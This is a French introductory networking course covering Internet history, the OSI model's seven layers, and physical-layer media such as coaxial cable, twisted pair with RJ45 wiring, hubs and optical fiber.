






Internet est devenu un élément incontournable de la vie quotidienne pour beaucoup de gens, et indispensable pour les informaticiens.
Cependant, peu de monde connait en détail le fonctionnement d'Internet !
Aujourd'hui, il est devenu courant d'utiliser Internet à son travail. Mais savez-vous réellement ce qu'il se passe lorsque vous vous connectez à Internet ? De la même façon, presque tous les foyers sont équipés d'une multitude d'appareils informatiques : le boîtier ADSL, l'ordinateur de bureau, l'ordinateur portable, l'imprimante etc. Mais peu de gens savent vraiment faire communiquer entre-elles toutes ces machines !
Nous allons voir à travers ce cours comment créer ce qu'on appelle un réseau, pourquoi et comment les informations circulent sur Internet, et comment gérer sa connexion (et écouter celle des autres ! ;) )
Comment les ordinateurs parlent-ils entre-eux ?
Comment les informations circulent-elles ?
Qui gère Internet ?
Puis-je participer à Internet ?
Quel est l'âge du capitaine ? ^^
À la fin de ce cours vous devriez être en mesure de répondre à toutes ces questions, donc de comprendre ce qui se passe entre le moment où vous entrez un nom de site web dans la barre d'adresse de votre navigateur, et le moment où vous en recevez la réponse. Ceci se fait en quelques millisecondes, mais cela représente de nombreuses étapes... !
Vous serez aussi en mesure de créer votre propre réseau local chez vous, et de l'administrer proprement. Ce cours devrait permettre à ceux qui se destinent à un métier dans les systèmes et réseaux d'y voir plus clair, à ceux qui préfèrent la programmation de mieux comprendre le réseau et donc de devenir plus performants dans leur métier ou futur métier, et à ceux qui désirent contrôler leur machine à café en wifi depuis le téléviseur de leur salon de ne plus se lever de leur canapé !
Vous êtes motivés ? Alors voici un petit aperçu du programme : je commencerai par vous raconter comment Internet a été imaginé et mis en œuvre ; nous verrons ensuite les normes qui ont permis sa création et essaierons de les comprendre. Nous apprendrons aussi à créer et administrer un petit réseau personnel, et nous nous plongerons dans le découpage d'adresses IP.
Pour tous ceux qui veulent aller un peu plus loin après la lecture de ce cours, il y a pas mal de tutos et de vidéos avancées sur mon site www.lalitte.com.
Bon, fini la parlotte, qui m'aime aime les réseaux me suive ! :D
Nous voilà prêts à plonger dans le fonctionnement d'Internet ! Mais avant toute chose, essayons de comprendre pourquoi et comment nous en sommes arrivés là.
Je vous propose dans ce chapitre une petite histoire de l'Internet...
Internet a été créé au départ pour une raison bien particulière.
À l'époque, dans les années 1950, les communications étaient « point à point », c'est-à-dire qu'on ne pouvait communiquer qu'avec une seule machine à la fois. Les chercheurs qui devaient communiquer avec plusieurs autres chercheurs lors de réunions, se sont rendu compte qu'il serait intéressant de pouvoir le faire en temps réel plutôt que de passer d'un interlocuteur à l'autre successivement.
Ils ont donc cherché à créer un nouveau moyen de communication qui ne serait alors plus centralisé, mais maillé.
Réseau de communication centralisé
Cela veut dire que toute information pourrait passer par différents points, et que si certains points disparaissaient, cela n'empêcherait pas l'information de circuler. Observez donc la figure suivante : vous voyez qu'avec un réseau de communication maillé, si un point de communication n'est plus en état de fonctionner, l'information peut passer par un chemin différent.
Schéma d'un réseau maillé
Mais maintenant que l'idée est posée, il reste à la mettre en œuvre !
Les chercheurs vont travailler et notamment mettre en place un réseau pour l'armée. C'est seulement au début des années 1960 que l'on voit apparaître des textes décrivant les prémices de ce que sera Internet.
À la fin des années 1960, l'Arpanet, l'ancêtre d'Internet, ne comportait que quatre machines ! Les protocoles utilisés alors ne permettaient pas d'atteindre les buts fixés, à savoir de faire dialoguer des machines provenant de différents réseaux en utilisant différentes technologies de communication.
C'est alors que les chercheurs se sont orientés vers la création d'autres protocoles de communication, et notamment TCP/IP. Internet a continué de croître au fil des années, mais c'est en 1990 qu'une révolution va permettre sa croissance réelle : le langage HTML et le protocole d'échange HTTP qui permettent la création de pages web.
Tout va s'accélérer alors avec la création des premiers navigateurs capables d'afficher des images, et la libération de l'utilisation des noms de domaine. Nous pouvons voir sur la figure suivante la progression phénoménale d'Internet dans les années 1990-2000.
Évolution des utilisateurs d'Internet (wikipedia)
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Parmi ces internautes, nous pouvons voir des disparités à travers le monde :
42 % des internautes viennent d'Asie !
le pays le plus internetisé est... la Corée du Sud ;
les internautes français représentent 6 % du total des internautes ;
78% des Américains ont Internet contre 10 % des Africains ;
une personne sur trois dans le monde a accès à Internet ;
le nombre d'internautes entre 2000 et 2010 a été multiplié par 4,5 ;
la croissance de l'Internet en Afrique est de 2360 % entre 2000 et 2010 !
Je ne vais pas continuer à vous abreuver de chiffres, bien que certains soient étonnants à connaître. Voyons plutôt le magnifique graphique présenté en figure suivante, qui représente les connexions entre machines d'Internet. Prenez votre loupe !
Source: Wikipedia
Cependant, n'oublions pas notre objectif premier : comprendre le fonctionnement d'Internet. Donc fini de rêvasser, passons aux choses sérieuses !
Maintenant que nous connaissons une partie de l'histoire d'Internet, il est grand temps de nous plonger dans son fonctionnement, notamment en étudiant sa création.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous sommes près de 1,8 milliard d'internautes aujourd'hui. Internet est une gigantesque toile d'araignée.
Comment est-ce possible de faire communiquer autant de machines ?
Comment ne pas s'y perdre dans ce dédale d'informations ?
Nous allons voir cela de ce pas, en essayant tout d'abord de comprendre comment Internet a été créé et quelles sont les normes qui ont été mises en œuvre pour orchestrer ce bal d'informations.
Imaginez que vous puissiez communiquer à chaque instant, quand vous le voulez, avec n'importe qui dans le monde ! C'est ce que nous propose Internet.
Il n'est pas facile de s'exprimer lorsque nous sommes un petit groupe de 10 personnes, difficile lorsque nous sommes 100, et quasiment impossible quand nous sommes 1000. Internet se propose donc de relever le défi de pouvoir communiquer tous ensemble, en même temps, et ce, quand nous le souhaitons. Bien sûr pour arriver à cette prouesse, il a fallu créer un système de communication complexe permettant aux machines de parler entre elles.
Mais comment ce modèle de communication a-t-il pu être créé ?
Eh bien le plus simple est de partir de ce que nous connaissons déjà de la communication. Et ça, tout le monde peut le faire !
Faisons un petit inventaire des moyens de communication:
- la parole ;
- le téléphone ;
- le courrier ;
- le pigeon voyageur ; ;)
- etc.
Essayons maintenant de comprendre, parmi ces moyens de communication, ce dont nous avons besoin pour communiquer.
Pour la parole, nous avons besoin:
d'un émetteur ;
d'un récepteur ;
d'un support de transmission (l'air).
Pour le téléphone, c'est un peu pareil sauf que nous avons besoin d'un élément complémentaire qui est l'intermédiaire entre la parole et l'électronique. En effet, on transforme la parole en signaux électriques, ils arrivent côté récepteur, puis ils sont de nouveau transformés en paroles. Nous voyons qu'il y a une encapsulation de l'information.
Nous retrouvons ce système d'encapsulation dans le courrier, pour lequel nous avons besoin:
d'un émetteur ;
d'un récepteur ;
d'un support de transmission (la lettre) ;
d'un contenant (l'enveloppe) ;
d'un intermédiaire (la poste).
Ainsi, nous commençons à comprendre ce qu'il nous faut pour communiquer.
Maintenant, est-ce que cela va pouvoir s'appliquer aux ordinateurs ? Comment va-t-on faire pour parler tous en même temps ? Pourra-t-on communiquer avec l'autre bout du monde instantanément ?
Nous allons voir par la suite comment les chercheurs ont fait pour passer des principes de communication humains à des principes de communication pour ordinateurs.
Ils ont ainsi regroupé l'ensemble de leurs recherches et de leurs résultats dans une norme que devront respecter les personnes se connectant à Internet.
Il s'agit du modèle OSI !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Le modèle OSI est né en 1984. Les plus connaisseurs d'entre vous auront remarqué que celui-ci est né après la naissance d'Internet !
La raison est simple : le modèle OSI est né quand nous avons commencé à avoir une certaine expérience des communications entre ordinateurs. Il tient donc compte des communications existantes, mais aussi des communications futures et de leurs évolutions potentielles.
Son objectif est de normaliser les communications pour garantir un maximum d'évolutivité et d'interopérabilité entre les ordinateurs.
Tout cela est fort sympathique, mais qu'est-ce que le modèle OSI ?
Le modèle OSI est une norme qui préconise comment les ordinateurs devraient communiquer entre eux.
Ainsi, si vous voulez faire communiquer votre grille-pain avec votre lave-vaisselle, il faudra vous appuyer sur le modèle OSI, ou du moins vous en inspirer le plus possible. Cela impliquera notamment le respect de la communication par couches.
Mais qu'est-ce que c'est que ces couches ?
Non, je ne suis pas devenu fou et ne suis pas sponsorisé par Pampers ! Le modèle OSI est un modèle en couches. Cela veut dire qu'il est découpé en plusieurs morceaux appelés couches, qui ont chacune un rôle défini, comme vous le montre le schéma de la figure suivante.
Le modèle OSI
Nous voyons ici que le modèle OSI a sept couches. Chacune possède un nom différent.
Mais pourquoi 7, et pas 14 ou 137 ?
Souvenez-vous du paragraphe précédent. Nous y avons vu que pour mettre en place une communication, il nous faudrait mettre en œuvre un certain nombre d'éléments, comme l'émetteur, le récepteur, le langage, etc. Eh bien les chercheurs ont imaginé combien d'éléments principaux il faudrait mettre en place pour communiquer. Et ils en ont trouvé 7 !
Chaque couche du modèle OSI va donc avoir un rôle à accomplir. Et l'ensemble de ces rôles va permettre de communiquer d'un ordinateur à un autre.
Examinons ces couches un peu plus en détail...
Cartes d'identité des couches du modèle OSI
La couche 1 ou couche physique :
Nom : physique.
Rôle : offrir un support de transmission pour la communication.
Rôle secondaire : RAS.
Matériel associé : le hub, ou concentrateur en français.
La couche 2 ou couche liaison :
Nom : liaison de données.
Rôle : connecter les machines entre elles sur un réseau local.
Rôle secondaire : détecter les erreurs de transmission.
Matériel associé : le switch, ou commutateur.
La couche 3 ou couche réseau :
Nom : réseau.
Rôle : interconnecter les réseaux entre eux.
Rôle secondaire : fragmenter les paquets.
Matériel associé : le routeur.
La couche 4 ou couche transport :
Nom : transport.
Rôle : gérer les connexions applicatives.
Rôle secondaire : garantir la connexion.
Matériel associé : RAS.
La couche 5 ou couche session : on s'en fiche !
Oui, vous m'avez bien lu, au-delà de la couche 4, on s'en fiche ! Bon, j'exagère un poil, mais pas tant que ça.
La raison est simple : le modèle OSI est un modèle théorique. Le modèle sur lequel s'appuie Internet aujourd'hui est le modèle TCP/IP. Or, ce modèle n'utilise pas les couches 5 et 6, donc... on s'en fiche !
Bon, je crois que vous avez compris ! Par contre, la couche 7 existe bien. Et c'est pour elle que nous mettons tout cela en place, le grand manitou, le patron, l'application !
La couche 7 ou couche application :
Nom : application.
Rôle : RAS.
Rôle secondaire : RAS.
Matériel associé : le proxy.
Quoi ? Une couche qui n'a pas de rôle ? Pourquoi est-elle là alors ?
Elle est là pour représenter les applications pour lesquelles nous allons mettre en œuvre des communications.
Ce n'est donc pas cette couche en elle-même que nous allons étudier, mais les couches qui sont là pour lui rendre service et acheminer les informations, les couches 1 à 4.
Les couches 1 à 4 sont appelées les couches "réseau". Ce sont elles qui ont la responsabilité d'acheminer les informations d'une machine à une autre, pour les applications qui le demandent.
Avant d'examiner plus en détail les couches, nous allons préciser le cadre d'utilisation du modèle OSI.
Règles d'or du modèle OSI
Le modèle OSI étant une norme, il doit indiquer, aux personnes voulant mettre en place des réseaux, comment travailler. Plus exactement, cela permet aux constructeurs de matériels de réseau de savoir comment fabriquer leurs matériels, et donc de garantir la compatibilité entre eux.
Si chacun respecte la norme, ça marche !
Nous avons vu que chaque couche avait un rôle qu'il faudra respecter. Ainsi, la couche 2 ne s'occupera jamais de la communication entre réseaux. De même que la couche 3 ne s'occupera pas de la communication sur un réseau local, etc.
Le modèle OSI ajoute deux règles plus générales entre les couches :
chaque couche est indépendante ;
chaque couche ne peut communiquer qu'avec une couche adjacente.
Chaque couche est indépendante
L'impact sera que les informations utilisées par une couche ne pourront pas être utilisées par une autre couche.
Par exemple, pour ceux qui connaissent déjà un peu le réseau, l'adresse IP qui est une adresse de couche 3 ne pourra pas être utilisée par une autre couche, sous peine de ne pas respecter le modèle OSI.
Cela va permettre de garantir l'évolution des communications dans le temps.
Imaginez que vous utilisiez Internet aujourd'hui. Sans le savoir, vous utilisez le protocole IPv4 pour la couche 3. Demain, nous allons passer en protocole IPv6 pour des raisons que nous expliciterons avec la couche 3.
Si jamais nous utilisons des adresses IPv4 dans une autre couche, le jour où nous changerons le protocole de couche 3 qui utilise les adresses IPv4, nous devrons changer aussi le ou les protocoles qui utilisent cette adresse.
Cela veut dire qu'on pourra changer un protocole associé à une couche sans avoir besoin de changer toutes les couches du modèle OSI.
C'est un peu comme si vous aviez une commode avec des tiroirs. Vous pouvez changer un tiroir cassé sans avoir à changer toute la commode !
Regardons la seconde règle.
Chaque couche ne peut communiquer qu'avec une couche adjacente
Pour comprendre cette règle, vous allez devoir comprendre comment les machines se servent du modèle OSI pour communiquer.
Vous êtes devant votre ordinateur et votre navigateur préféré. Vous entrez l'adresse d'un site dans la barre d'adresses, et le site apparaît aussitôt.
Sans le savoir, vous avez utilisé le modèle OSI !
En gros, l'application (le navigateur) de couche 7, s'est adressée aux couches réseau pour que celles-ci transmettent l'information à l'application demandée sur la machine demandée (le serveur web sur la machine google.com par exemple).
Lors d'un envoi, nous parcourons donc les couches du modèle OSI de haut en bas, de la couche 7 à la couche 1, ainsi que vous pouvez le voir sur la figure suivante.
Envoi dans le modèle OSI
Ainsi, grâce à la seconde règle du modèle OSI, nous garantissons que lors de l'envoi d'informations, toutes les couches du modèle OSI vont être parcourues.
Ceci est garanti, car nous partons de la couche 7, et la règle nous dit qu'une couche ne peut communiquer qu'avec une couche adjacente. La couche 7 ne pourra donc communiquer qu'avec la couche directement sous elle, la couche 6.
En fait, c'est presque vrai, car comme vous le savez maintenant, le modèle OSI n'est qu'un modèle théorique, et la couche 7 s'adresse directement aux couches réseau pour communiquer, soit directement à la couche 4, qui s'adresse à la couche 3, qui s'adresse à la couche 2...
Ce qu'il faut retenir
Le modèle OSI est une norme précisant comment les machines doivent communiquer entre elles.
C'est un modèle théorique, le modèle réellement utilisé étant le modèle TCP/IP.
Le modèle OSI possède 7 couches.
Chaque couche a un rôle particulier à accomplir.
Les couches 1 à 4 sont les couches réseau.
Les couches réseau offrent le service de communication à la couche applicative.
Chaque couche est indépendante des autres.
Chaque couche ne peut communiquer qu'avec une couche adjacente.
Lors de l'envoi de données, on parcourt le modèle OSI de haut en bas, en traversant toutes les couches.
vous connaissez et comprenez maintenant le modèle OSI ;
il est composé de 7 couches chacune dédiée à un rôle particulier ;
Il y a deux règles d'or associées à ce modèle qui permettent de garantir la bonne utilisation du modèle OSI.
Il est temps maintenant de s'y plonger directement avec l'étude de la couche 1.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Maintenant que nous avons vu comment fonctionnaient les communications avec le modèle OSI, nous allons nous plonger dans l'étude de chacune des couches qui nous intéressent. Il s'agit des quatre premières couches qui correspondent aux couches réseau. Nous allons d'abord voir les couches qui nous servent à dialoguer sur un réseau local, et pour commencer, la couche 1.
Allez, un peu de travail physique, on attaque la couche 1 !
Comme nous l'avons vu avec le modèle OSI, chaque couche a un ou plusieurs rôles associés qui servent à mettre en place la communication.
Mais à quoi peut bien servir cette couche 1 ?
Le rôle principal de la couche 1 est de fournir le support de transmission de la communication.
Eh oui, pour pouvoir communiquer il va bien falloir avoir un support. Vous en connaissez déjà un si vous êtes connectés à Internet : un câble si vous êtes connectés directement à votre box, l'air libre si vous utilisez le wifi.
La couche 1 aura donc pour but d'acheminer des signaux électriques, des 0 et des 1 en gros.
D'ailleurs, pourquoi des 0 et des 1 et pas des 5 ou des 564 ?
Cela est dû à la difficulté de distinguer des signaux électriques différents. Sur un signal qui varie entre 0 V et 5 V, il est facile de distinguer quand on est près de 0 V ou de 5 V.
Par contre si je vous demande de faire la distinction entre 0 V, 1 V, 2 V, 3 V, 4 V et 5 V, cela sera plus difficile !
Notamment quand il y aura des perturbations magnétiques, comme des aimants, qui pourront venir modifier le signal électrique.
Imaginons que la perturbation modifie le signal en ajoutant 2 V, vous êtes foutus pour faire la distinction entre 3 V et 4 V. Alors qu'entre 0 V et 5 V cela est encore possible en prenant une marge de 2 V.
Il est donc plus facile de distinguer 2 signaux que 5 ou 10. C'est pour cela que l'on travaille avec des 0 et des 1 en informatique, qui représentent deux signaux différents !
Mais comment fait-on pour faire circuler ces 0 et ces 1 ?
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Les 0 et les 1 vont circuler grâce aux différents supports de transmission. Nous allons les étudier un par un.
Historiquement, nous avons utilisé des câbles, qui sont dépassés aujourd'hui, mais que vous pourrez parfois encore rencontrer dans des réseaux antiques : il s'agit des câbles coaxiaux !
Les câbles coaxiaux
Voici, sur la figure suivante, comment se présente un câble coaxial.
Câble coaxial
Le principe est de faire circuler le signal électrique dans le fil de données central. On se sert du maillage de masse, autrement appelé grille, pour avoir un signal de référence à 0 V. On obtient le signal électrique en faisant la différence de potentiel entre le fil de données et la masse.
Comme nous sommes des brutes dans les réseaux, un nom aussi simple que câble coaxial n'était pas envisageable et il fallait inventer un acronyme incompréhensible pour bien montrer que ce métier était réservé à des experts ! ;)
Le nom scientifique donné au câble coaxial est donc le 10B2 ou 10B5 pour sa version encore plus ancienne.
Mais pourquoi ces chiffres et ces lettres incompréhensibles ?
Pour crâner en public ! Bon d'accord, il y a aussi une explication logique :
le 10 indique le débit en Mbps (mégabits par seconde) ;
le B indique la façon de coder les 0 et les 1, soit ici la bande de Base ;
le dernier chiffre indique la taille maximale du réseau, exprimée en mètres et divisée par 100.
Cette taille est de 200 m pour le 10B2, et 500 m pour le 10B5. Par exemple, pour une longueur de 200 m, si je divise par 100, cela me donne 2. Le nom scientifique est donc bien 10B2 !
Le câble coaxial 10B5
Le 10B5 est le plus ancien et le plus dur à utiliser. Le principe est de poser le câble partout dans les salles à informatiser. Ensuite, on peut brancher des machines sur le câble, mais seulement à certains endroits ! La connexion se fait à l'aide de prises vampire.
Que vient faire Dracula là-dedans ?
En fait, il fallait faire un petit trou, à la main, dans le câble, pour atteindre le fil de données. Une fois cette manipulation effectuée, on mettait en place la prise vampire dans laquelle une petite pointe en métal venait en contact avec le fil de données et permettait de récupérer le signal (voir la figure suivante).
Prise vampire
Autant dire que les administrateurs réseau étaient manuels !
Pour la petite histoire, les câbles 10B5 étant très épais, il était difficile de les plier. Et si jamais on en pliait un trop fort et qu'on coupait le fil de données à l’intérieur, patatra ! Le réseau était coupé et le câble, bon à jeter.
C'est pour cela que ce câble faisait un quart de cercle dans le coin des salles pour ne pas être plié. Un élève mal intentionné pouvait alors se venger avec un bon coup de pied dans ledit câble... Heureusement est arrivé le 10B2 !
Le câble coaxial 10B2
Le câble coaxial 10B2 possède la même structure que le 10B5, mais en plus fin. La connectique utilisée est aussi très différente, car la propagation de l'information ne se fait pas de la même façon.
Pour mettre en place un réseau en 10B2, il fallait :
des câbles 10B2 équipés de prises BNC ;
des tés BNC ;
des bouchons.
Voici aux figures suivantes, dans l'ordre de haut en bas, le câble équipé d'une prise BNC, le té BNC et le bouchon BNC.
Prise BNCTé BNCBouchon BNC
Pour créer le réseau, on mettait un bouchon sur un côté du té, une carte réseau sur le deuxième côté (celui du milieu) et un câble sur la dernière prise. L'autre extrémité du câble était branchée sur un autre té, et ainsi de suite jusqu'à la fermeture du réseau par un bouchon.
Voici à la figure suivante un exemple de connexion sur un té.
Connexion BNC
Et voici le réseau complet sur la figure suivante.
Réseau BNC
Cela devient plus simple et plus solide que le réseau 10B5, car si un câble est défectueux, on peut le remplacer. Mais... si jamais quelqu'un veut se débrancher du réseau... il coupe le réseau ! Heureusement pour nous, le réseau a évolué, et Zorro la paire torsadée est arrivée !
La paire torsadée
Le câble à paires torsadées n'est plus un câble coaxial. Il n'y a plus un unique fil dans le câble mais huit ! De quoi faire passer de l'information dans tous les sens !
Le câble à paires torsadées est donc composé de huit fils, torsadés deux à deux par paires, d'où le génie des chercheurs quand ils ont trouvé son nom, la paire torsadée ! Vous pouvez en voir un exemple sur la figure suivante.
Câble à paires torsadées
Mais pourquoi utiliser 8 fils ?
Parce que nous avons été malins ! Par principe, il n'y a besoin que de deux fils pour faire passer une différence de potentiel, comme vu au paragraphe précédent sur le câble coaxial.
Cependant, nous ne savons pas de quoi l'avenir sera fait, et peut-être que demain nous voudrons faire passer plusieurs informations sur un même câble.
Ainsi, le câble à paires torsadées a été créé avec 8 fils, alors que deux auraient suffi, pour permettre son évolution.
OK, donc aujourd'hui, nous utilisons 2 fils, soit une paire, pour faire passer l'information ?
Eh non ! Aujourd'hui, dans la plupart des réseaux, nous utilisons 2 paires, soit 4 fils, car nous utilisons une paire pour envoyer les données, et une paire pour les recevoir. Nous n'utilisons donc que 4 fils sur 8.
Ceci dit, ce n'est pas grave, car il existe déjà des technologies qui utilisent plus de 4 fils, et nous avons eu raison d'en mettre 8 dans le câble à paires torsadées.
Et d'ailleurs, pourquoi on les torsade, ces fils ?
Parce que cela permet une meilleure protection du signal électrique. En effet, on s'est rendu compte qu'en torsadant les fils de la sorte, le câble était moins sujet à des perturbations électromagnétiques (et ne me demandez pas pourquoi !).
Il faut cependant éviter si possible, quand vous posez du câble, de passer à côté de sources de perturbation comme des câbles électriques à 220 V ou des néons qui créent de grosses perturbations lors de l'allumage.
Est-ce que la paire torsadée a un nom compliqué comme le 10B2 ?
Oui, on l'appelle aussi le 10BT, ou 100BT ou 1000BT, selon le débit utilisé (10 Mbps, 100 Mbps, 1000 Mbps) le T étant là pour « torsadé », ou twisted en anglais. On ajoute parfois un x derrière, pour dire que le réseau est commuté... mais nous verrons cela avec la couche 2.
Si je vous dis que le réseau est en 100BTx, vous savez que j'utilise de la paire torsadée et que le débit est de 100 Mbps (et accessoirement que le réseau est commuté, mais cela n'est pas encore très parlant...).
Le câble coaxial n'est plus utilisé, mais qu'en est-il de la paire torsadée ?
Eh bien on l'utilise partout, dans 90 % des cas ! C'est la number one de la connexion, la championne, le top du top !
C'est d'ailleurs sûrement le câble que vous utilisez pour vous connecter à votre box. Il est partout en entreprise, chez les particuliers, chez mamie, etc.
Notamment parce qu'il est robuste et permet de gros débits, qu'il n'est pas cher, et qu'il est simple à installer.
D'ailleurs, comment branche-t-on les machines avec ?
On les branche à l'aide de prises RJ45.
Voici à la figure suivante une prise RJ45. On peut voir les 8 petits connecteurs en cuivre qui sont reliés aux 8 fils.
Prise RJ45_2
Étant donné que nous n'utilisons que 4 fils, peut-on utiliser n'importe lesquels ?
Non ! Il faut utiliser des fils spécifiques, qui sont les fils 1, 2, 3 et 6. Voici en figure suivante le branchement d'un câble et les fils utilisés (avec les couleurs).
Paire torsadée droite
De plus, il ne faut pas oublier que cette prise doit être branchée dans une autre prise pour être connectée. On appelle cette prise une prise femelle, elle est généralement située sur un hub ou un switch, mais nous le verrons plus tard... (voir les figures suivantes).
rj45 femelleSwitch
Imaginons que nous ayons une machine A à gauche, et une machine B à droite que nous relions à l'aide de ce câble. Voici sur la figure suivante ce que ça donne.
RJ45 droit 2
Oui, comme certains l'ont peut-être deviné, cela ne va pas marcher. Si vous vous rappelez bien, nous utilisons deux paires pour une connexion. Une paire pour envoyer des données et une paire pour les recevoir.
Or, d'après le câblage utilisé, la transmission de la machine A va être en relation avec la transmission de la machine B. De même, la réception de la machine A va être en relation avec la réception de la machine B (voir la figure suivante). Cela ne marchera pas...
RJ45 droit avec transmissions
Alors comment faire ? On m'aurait menti ?
Pour pouvoir relier la transmission de la machine A avec la réception de la machine B, il faudrait que les fils 1 et 2 soient en relation avec les fils 3 et 6... Ce qui reviendrait à croiser les fils... Eh bien voilà, nous venons d'inventer le câble croisé !
Comme vous pouvez le constater sur la figure suivante, nous avons bien la transmission de la machine A en relation avec la réception de la machine B.
RJ45 croisé
Nous pouvons en tirer une conclusion : pour relier deux machines directement entre elles, il faut un câble croisé.
Ah bon ? Pourtant je connecte mon ordinateur sur ma box et j'utilise un câble droit !
Il peut y avoir deux raisons à cela :
la prise femelle sur la box a déjà ses connexions transmission et réception inversées ;
les prises femelles de ma box et de mon ordinateur sont capables de s'adapter et d'inverser les connexions de transmission et réception si besoin.
Le premier cas est modélisé sur le schéma de la figure suivante. Nous y voyons bien que même si nous utilisons un câble droit, la paire de transmission de la machine A est en relation avec la paire de réception de la machine B.
RJ45 droit avec switch
Dans le second cas, la machine B peut choisir indifféremment les paires de transmission et réception pour se trouver dans le cas de la machine A ou de la machine B. Magique !
Ainsi, étant donné que les cartes réseau ont évolué aujourd'hui, vous pouvez utiliser indifféremment des câbles droits ou croisés sans vous embêter ! Ça reste vrai tant que vous n'utilisez pas de vieux matériel qui ne serait pas capable de changer ses paires de connexion...
Mais maintenant si vous utilisez du vieux matériel, comment savoir s'il faut utiliser un câble droit ou un câble croisé ?
Il y a une règle simple, mais pas toujours facile à comprendre : je dois utiliser un câble croisé pour connecter deux matériels de même type.
Super ! Vous vous demandez peut-être ce que c'est que deux matériels de même type ? Eh bien ce sont par exemple deux ordinateurs, ou deux imprimantes. Quand ce sont deux matériels identiques, on sait qu'ils sont de même type, c'est facile.
Par contre, si l'on veut connecter un ordinateur et une imprimante, comment faire ? Il va falloir créer deux catégories :
les matériels de connexion ;
les matériels connectés.
Les matériels de connexion sont ceux qui servent à connecter plusieurs machines entre elles, comme les hubs ou les switchs (voir les figures suivantes).
Un HubSwitch
Les matériels connectés sont... tout le reste ! Les ordinateurs, les imprimantes, les routeurs, etc.
Et voilà, nous avons fait le tour de la paire torsadée qui est encore le câble le plus utilisé de nos jours.
Mais à quoi branche-t-on cette paire torsadée ?
Dans un premier temps, nous l'avons vu, il s'agit de prises RJ45 femelles. Celles-ci sont montées sur des cartes réseau pour nos machines.
Mais pour pouvoir relier plusieurs machines entre elles sur un réseau, il faut utiliser un matériel de connexion. Et pour la couche 1, il s'agit du hub (ou concentrateur en français). Le hub est une machine composée de plusieurs prises RJ45 femelles et qui a pour rôle de relier les machines entre elles (voir la figure suivante).
Un Switch
Seulement, le hub a un fonctionnement particulier. Imaginez qu'il y ait 5 machines branchées au hub, les machines A, B, C, D et E. Si A veut parler à C, elle va envoyer l'information au hub. Mais lui ne sait pas lire ! Il va donc envoyer l'information à toutes les machines en se disant qu'il y en aura bien une dans le tas qui sera la bonne !
Les machines B, D et E vont voir que l'information n'est pas pour elles et vont la jeter, alors que la machine C va pouvoir la lire ! (on voit tout de suite qu'un hub n'est pas top pour la confidentialité des données...).
Le hub est un peu bourrin, mais ça marche !
Mais quel est l'avenir du câblage réseau ? Est-ce encore la paire torsadée ?
A priori, même si cela coûte encore très cher, la fibre optique est amenée à remplacer la paire torsadée, notamment en raison des débits qu'elle peut offrir. Mais ce n'est pas pour tout de suite...
La fibre optique
Avec la fibre optique, nous transportons des 0 et des 1, non plus avec de l'électricité mais avec de la lumière !
Ce sera en gros, allumé, éteint, allumé, éteint... On envoie de la lumière dans le fil, et elle ressort quelques mètres/kilomètres plus loin.
Nous n'allons pas rentrer dans les détails de la fibre optique, mais nous allons seulement voir ce qui nous intéresse.
Le nom scientifique
Le nom scientifique de la fibre est communément le 1000BF. Du gigabit avec le F pour... Fibre ! Il existe aujourd'hui globalement deux types de fibre :
la fibre monomode ;
la fibre multimode.
La fibre monomode fait passer une seule longueur d'onde lumineuse, soit une seule couleur. Elle fonctionne donc avec du laser qui peut être vert, bleu, rouge, etc.
La fibre multimode fonctionne avec de la lumière blanche, et donc toutes les longueurs d'ondes (la lumière blanche est la somme de toutes les lumières possibles, comme celle du soleil).
Mais pourquoi avoir deux fibres différentes ?
Le débit et la distance parcourue ne seront pas les mêmes dans les deux cas. En effet, la fibre monomode est beaucoup plus performante que la multimode.
Hein ? Une seule lumière est plus efficace que toutes les lumières ensemble ?
Eh oui ! Dans le cas de la lumière blanche, la lumière envoyée dans la fibre va être reflétée à l'intérieur de la fibre. Mais chaque couleur va se refléter légèrement différemment, ce qui fait qu'au bout de la fibre au lieu d'avoir une lumière blanche, on aura des couleurs qui arriveront très proches, mais pas parfaitement ensemble.
C'est comme si vous lanciez une poignée de cailloux. Les cailloux sont bien regroupés au lancement, mais plus ils avancent et plus ils s'éparpillent. Alors que si vous lancez un seul caillou, il arrivera groupé (vu qu'il est seul). C'est pareil pour la fibre monomode.
On pourra ainsi parcourir une plus longue distance avec de la fibre monomode. En gros :
2 km pour la fibre multimode ;
60 km pour la fibre monomode.
Même si les distances parcourues aujourd'hui peuvent être beaucoup plus grandes (le record étant de l'ordre de 8000 km) c'est un bon ordre de grandeur.
